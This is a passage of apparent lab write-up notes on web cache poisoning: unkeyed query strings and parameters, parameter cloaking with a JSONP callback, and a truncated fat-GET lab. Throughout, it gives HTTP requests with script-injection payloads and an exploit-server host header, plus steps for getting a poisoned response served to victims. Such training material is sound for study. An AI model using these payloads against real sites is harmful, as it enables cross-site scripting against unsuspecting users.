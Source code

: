     GET / HTTP/2
    X-Original-Url: /setlang/en-gb//

    GET /?localized=1 HTTP/2
    Cookie: session=kR2hypLwTseLX3PS2tgOzh4eRvJky3uP; lang=en-gb
    X-Forwarded-Host: exploit-0afc00a7040dbbe283d82cac014d003e.exploit-server.net/exploit#

### LAB: Web cache poisoning via an unkeyed query string
Notice the response is cached based on the `Origin` header and the path in the request target. Try send this request:
    
    GET /?'/><script>alert(1)</script> HTTP/2
    Origin: example.com

Notice a `X-Cache: miss` header and the query parameter is successfully reflected inside the response. Resend this so that the cache server stores the response. Now remove the query parameter and the `Origin` header, resend the request until a `X-Cache: miss` header. Notice the malicious response is now showing, resend one more time to make the server cache this response. Now when the victim make a `GET / HTTP/2` request, he is served with this malicious response.

### LAB: Web cache poisoning via an unkeyed query parameter
Just like above lab, but now we have to identify an unkeyed query parameter. Try `utm_content`: 

    GET /?utm_content='/><script>alert(1)</script>

Notice a cache hit This indicates that the server is ignoring the `utm_content` parameter. Resend this request until we get a `X-Cache: miss`. This time, the we got served with the malicious response. Resend this again, to get this response cached. Now when the victim visits the home page, he is served with this malicious response.

### LAB: Parameter cloaking
Notice when the home page loads, it also makes this request: 

    GET /js/geolocate.js?callback=setCountryCookie

Try change the request to:

    GET /js/geolocate.js?callback=setCountryCookie;callback=alert(1)//

Notice the `alert(1)` function is called instead of the `setCountryCookie`. Now we need to make the cache server cache this response for the `GET /js/geolocate.js?callback=setCountryCookie` request. Notice that the `utm_content` parameter is excluded from the cache key. Make this request:

    GET /js/geolocate.js?callback=setCountryCookie&utm_content=abc;callback=alert(1)//

The cache server will ignores anything after `utm_content`, but the backend server still recognize the last `callback` parameter and overwrites it to call the alert function. Resend this request to make the cache server store this malicious response. Now every time the victim visits the home page, the browser will look for `/js/geolocate.js?callback=setCountryCookie` where our malicious response will be used by the cache server and send back to the victim.

### LAB: Web cache poisoning via a fat GET request
Same as above lab but now the request to `/js/geolocate.js?callback=setCountryCookie` accepts a body. Use this body:
